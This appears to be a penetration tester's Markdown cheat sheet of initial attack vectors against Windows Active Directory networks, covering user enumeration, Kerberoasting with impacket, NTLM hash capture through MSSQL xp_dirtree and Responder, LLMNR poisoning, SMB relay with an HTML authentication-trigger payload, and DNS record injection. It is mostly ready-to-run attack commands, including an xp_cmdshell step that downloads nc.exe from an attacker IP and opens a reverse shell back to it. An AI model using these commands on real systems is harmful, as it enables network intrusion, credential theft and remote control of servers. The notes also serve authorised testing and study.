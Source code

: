# Phase 0:  Initial attack vectors
---
## Navigation
- **[[#Services enumeration]]**
- **[[#Attacks]]**
	- [[#1-Kerberos]]
	- [[#2-Microsoft SQL Server]]
	- [[#3-LLMNR Poisoning]]
	- [[#4-SMB Relay attack]]
	- [[#5-DNS]]
	- [[#6-Pv6 DNS Takeover]]

---
# Services enumeration
## Kerberos
- [**Kerbrute**](https://github.com/ropnop/kerbrute)
```txt
go get github.com/ropnop/kerbrute
```
- [**LDAP**](https://book.hacktricks.xyz/pentesting/pentesting-ldap)
 ```bash
 #install -> pip install ldapdomaindump
 ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
 ```
- [**RPC**](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)  -> [**Tool**](https://github.com/m4lal0/RPCrecon)
```txt
#Connecting
rpcclient <ip> -U <username>

#Enumerate domain users
enumdomusers

#Enumerate domain groups
enumdomgroups
```

---
# Attacks
## 1-Kerberos
**Synchronizing time is important**
```bash
sudo apt install ntpdate
ntpdate <IP>
```
**Enumeration**
- **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 - **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
 - **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 ```
 - **impacket-GetADUSers.py**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes. 
 -- *If no entries are returned that means users don’t have email addresses specified*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 ```
 - [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
---
## 2-Microsoft SQL Server
```bash
impacket-mssqlclient <DOMAIN>/<USER>:<PASSWORD>@<IP>
```
### Capturing NTLM hashes
**Pre-requesties**
- Having access to the server.
- Downloading -> [**Responder.py**](https://github.com/SpiderLabs/Responder)

 1- Running Responder
```bash
sudo responder -I tun0 
```
 2- Starting an HTTPSever
```bash
sudo python3 -m httpserver 80
```
 3- Listing a fakeshare to trigger the protocol
```bash
xp_dirtree "\\<ATTACKER-IP>\meow
```
 4- Check Responder and take the hash :)
### Gaining a shell
You can execute commands on MsSQL server using:
```bash
EXEC xp_cmdshell '<COMMAND'
```
Then you can upload a `nc.exe`:
```bash
EXEC xp_cmdshell 'powershell -c curl http://<ATTACKER-IP>/nc.exe -o <PATH>'
```
Then trigger it:
```bash
EXEC xp_cmdshell '<PATH>/nc.exe -e cmd <ATTACKER-IP> <PORT>'
```
---
## 3-LLMNR Poisoning
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]
### Exploitation
- Use responder to MITM and recieve the hash -> [**Responder.py**](https://github.com/SpiderLabs/Responder)
- [**Tool**](https://github.com/m4lal0/smbrelay)
### Mitigation
- See MITRE **[[#Refrences]]** below.
---
## 4-SMB  Relay attack
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
### Checking if SMB signing id disabled
```bash 
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
### Exploitation
- Either by waiting for somenone to mistyping a domain or by sending an html payload file
#### HTML payload file
```html
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
####  Tool
```bash
smbrelayx.py -h 10.0.0.6 -c "ipconfig" # 'c' is optional to execute commands.
```
### Gaining an shell
```bash
#Tools (Require password)
wmiexec #-> stealthier (Can be used to PASSTHEHASH and get a shell)
psexec #-> stealthier
smbexec #-> not stealthy
```
---
## 5-DNS
Adding records
- Preferred Tool [**dnstoolpy**](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)
```bash
dnstool.py -u DOMAIN\\USERNAME -p PASSWORD -r FAKESYSTEM.FQDN -a add -d YOUR_IP DC_HOSTNAME
```

---
## 6-IPv6 DNS Takeover
Useful and important
- [**Delegation attack**](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [**Attack**](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

## Refrence
- [**BLOG Explaning various techniques**](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
- [**LLMNR Poison MITRE**](https://attack.mitre.org/techniques/T1557/001/) **&**  [**LLMNR Poison Meduim**](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
- [**SMB Relay**](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)
